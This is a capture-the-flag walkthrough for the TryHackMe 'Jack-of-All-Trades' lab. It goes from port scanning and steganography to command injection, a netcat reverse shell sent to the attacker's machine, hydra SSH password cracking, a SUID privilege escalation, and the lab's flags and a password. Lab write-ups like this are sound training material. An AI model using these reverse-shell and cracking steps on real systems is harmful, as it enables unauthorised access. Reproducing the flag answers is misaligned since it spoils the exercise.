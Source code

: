 # [Jack-of-All-Trades](https://tryhackme.com/room/jackofalltrades)

> Boot-to-root originally designed for Securi-Tay 2020

## Scanning

scan the target

```
nmap -sS -sV -T4 10.10.221.94
```

![image](https://user-images.githubusercontent.com/90561566/216546687-585ed721-ae23-4569-8122-3adda13aa9b2.png)

hmm, there is a paradox here when http at port 22 and ssh port 80

## HTTP

view the webpage

![image](https://user-images.githubusercontent.com/90561566/216547112-c7dd7421-8f6c-4571-9216-39ccdd204ef0.png)

To resolve this issue do the following:
1. In the URL bar, enter about:config.
2. In the search bar, enter network.security.ports.banned.override
3. Select type String and click on the + sign to add.
4. Enter the port number 22.

![image](https://user-images.githubusercontent.com/90561566/216547647-c779a6d1-2e89-4a94-982a-0a0991096ccf.png)

go back the webpage

![image](https://user-images.githubusercontent.com/90561566/216547798-f3444667-51aa-42cd-913e-763cd0bf1c52.png)

you can found a note at the source code

![image](https://user-images.githubusercontent.com/90561566/216548407-27cf37cf-4aac-4ada-ac95-ec75880737fc.png)

it seem a base64, we have a password `u?WtKSraq`

![image](https://user-images.githubusercontent.com/90561566/216548706-7e2fad34-a1c2-4295-b07d-af99d7f8a905.png)

go to /recovery.php, i see a login page

![image](https://user-images.githubusercontent.com/90561566/216549236-a131e8cd-8a30-4f3d-a1e6-a326031af61b.png)

there is still a note at source code

![image](https://user-images.githubusercontent.com/90561566/216549600-1278eab5-19a1-4b63-b9a2-eea425e796db.png)

## Enumeration

this is a multi encrypted string that can be decoded by Base32 > Hex > Rot 13

![image](https://user-images.githubusercontent.com/90561566/216550070-87723d4d-e55c-4a00-b347-c36d22ed9cae.png)

we have a shortened url that redirect to wikipedia related to Stegosauria

![image](https://user-images.githubusercontent.com/90561566/216550282-f33acd0b-c748-4e47-9f66-a5582c301253.png)

remember he like Stego's and there is an image of a dinosaur on the homepage as well, so the hint may be steganography

```
wget http://10.10.221.94:22/assets/stego.jpg
steghide extract -sf stego.jpg
```

passphare is the previous found `u?WtKSraq`

![image](https://user-images.githubusercontent.com/90561566/216552104-aa0476fe-656b-4081-91e1-3d48ae638a58.png)

wrong image, so do the following with 3 image at homepage, and the answer is header.jpg

```
wget http://10.10.221.94:22/assets/header.jpg
steghide extract -sf header.jpg
```

![image](https://user-images.githubusercontent.com/90561566/216552499-bd91fda3-e0bb-4e1d-8070-5a6aaaecbfdd.png)

now, return the recover.php and we will see a command page

![image](https://user-images.githubusercontent.com/90561566/216552820-d84b5158-e811-44b8-92be-d24544abd102.png)

try a basic command `?cmd=whoami`

![image](https://user-images.githubusercontent.com/90561566/216552949-70f0f8a7-1d89-42a1-96b9-ef1be8032266.png)

## Exploitation

now just prepare a netcat

```
nc -vlnp 4444
```

create a reverse shell

```
?cmd=nc -e /bin/sh 10.9.43.204 4444
```

![image](https://user-images.githubusercontent.com/90561566/216557546-a9d64505-db2c-4f25-8802-fc29ac787541.png)

```
cd /home
ls -la
cat jacks_password_list
```

we can user that passlist to crack jack ssh

```
hydra -l jack -P passlist.txt 10.10.116.58 ssh -s 80
```

![image](https://user-images.githubusercontent.com/90561566/216558597-c8f53cc3-af5e-4ef3-9e79-414c8ad1e490.png)

```
ssh jack@10.10.116.58 -p 80
ITMJpGGIqg1jn?>@
```

![image](https://user-images.githubusercontent.com/90561566/216558829-cb54f803-86c1-49f8-88bf-22e65842cdd7.png)

the flag is image so i use scp to copy to local machine

```
scp -P 80 jack@10.10.116.58:user.jpg .
```

![image](https://user-images.githubusercontent.com/90561566/216559630-aae80783-4c14-4437-97d5-a4069d18ee64.png)

```
open user.jpg
```

![image](https://user-images.githubusercontent.com/90561566/216559866-a3fddd20-3b09-4e4d-8976-b1ea2d9a2d79.png)

| Flag | user.jpg |
| --- | --- |
| Answer | securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3} |

## Privilege Escalation

search for SUID bit

```
find / -perm /4000 -user root -ls 2>/dev/null
```

![image](https://user-images.githubusercontent.com/90561566/216560677-33e9864c-0c60-4d13-a235-b6d99d36bb16.png)

it's very easy with strings

```
strings /root/root.txt
```

![image](https://user-images.githubusercontent.com/90561566/216561156-efed67c3-d022-4129-a4c7-692906976357.png)

| Flag | root.txt |
| --- | --- |
| Answer | securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a} |
